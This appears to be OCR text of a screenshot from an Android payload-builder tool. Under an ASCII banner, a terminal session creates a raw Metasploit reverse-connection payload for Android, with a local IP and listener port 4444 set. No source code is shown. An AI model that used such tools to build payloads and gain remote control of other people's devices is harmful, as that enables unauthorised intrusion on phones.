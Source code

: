    / \  | \ | |  _ \|  _ \ / _ \  |  _ \|  _ \ / _ \_ _|  _ \ 
  / _ \ |  \| | | | | |_) | | | | | | | | |_) | | | | || | | |
 / ___ \| |\  | |_| |  _ <| |_| | | |_| |  _ <| |_| | || |_| |
/_/   \_\_| \_|____/|_| \_\\___/  |____/|_| \_\\___/___|____/ 
                                                              

1. Create Payload 
2. Exploit Payload
Choose the Option: 1
1. Choose automatically 
2. I given IP Adrress
Choose the Option: 1
Please enter LPORT number: 4444
192.168.1.39
4444
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10184 bytes


Payload Created
